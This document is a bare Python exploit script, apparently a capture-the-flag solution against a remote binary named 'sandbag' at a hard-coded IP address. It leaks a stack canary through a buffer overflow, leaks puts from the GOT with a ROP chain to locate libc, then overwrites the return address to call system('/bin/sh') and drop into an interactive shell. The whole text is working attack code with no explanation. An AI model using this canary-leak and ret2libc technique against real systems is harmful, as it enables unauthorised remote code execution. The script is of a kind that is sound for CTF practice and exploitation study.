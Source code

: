 ```python
from yeonnic import *

elf=ELF("./sandbag")

p=remote("222.110.147.52", 6975)

def fuck_bof(data):
    p.sendline("2")
    print p.recv()
    p.sendline("4")
    print p.recv()
    p.sendline(data)

print p.recv()

for i in range(2):
    for j in range(3):
        for x in range(12):
            p.sendline(str(i+1))
            print p.recv()
            p.sendline(str(j+1))
            print p.recv()

gdb_attach(p,"b *0x8048dee\nc")

p.sendline("3")
print p.recv()
p.sendline("4")
print p.recv()

fuck_bof("A"*0x3f+"B")
print p.recvuntil("AB")
canary=u32(p.recv(4))-10
print p.recv()
print 'canary -> ',hex(canary)

fuck_bof("A"*0x40+flat(canary,0,elf.plt['puts'],0x8048d87,elf.got['puts']))
print p.recv()
p.sendline("6")
print p.recvuntil("Good Bye~\n")
puts=u32(p.recv(4))
print p.recv()

libc=get_libc("puts",puts)

for i in range(2):
    for j in range(3):
        for x in range(12):
            p.sendline(str(i+1))
            print p.recv()
            p.sendline(str(j+1))
            print p.recv()
p.sendline("3")
print p.recv()
p.sendline("4")
print p.recv()

fuck_bof("A"*0x40+flat(canary,0,libc.symbols['system'],0,next(libc.search("/bin/sh\x00"))))

p.sendline("6")

p.interactive()
```